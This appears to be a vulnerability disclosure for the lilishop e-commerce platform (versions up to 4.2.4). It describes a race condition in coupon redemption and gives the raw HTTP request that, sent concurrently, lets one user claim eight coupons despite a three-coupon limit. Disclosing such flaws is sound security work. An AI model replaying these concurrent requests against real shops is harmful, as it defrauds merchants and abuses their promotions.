


### Target

https://github.com/lilishop/lilishop

### Version

<=4.2.4

### Description

Attackers can break through the limitation of only being able to claim coupons once by grabbing the data packet for coupon redemption and using high concurrency to send this data packet to achieve multi coupon redemption.

### Details

```
GET /buyer/promotion/coupon/receive/1844275265607499778 HTTP/1.1
Host: 
Connection: keep-alive
sec-ch-ua: "Chromium";v="124", "Microsoft Edge";v="124", "Not-A.Brand";v="99"
Accept: application/json, text/plain, */*
accessToken: 
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
sec-ch-ua-platform: "Windows"
Origin: 
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: 
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
```

According to the prompt, each user can only receive three coupons for this coupon. By sending a high concurrency data packet, we successfully exceeded the limit and received 8 coupons.

The restrictions are as follows:



The collection results are as follows:

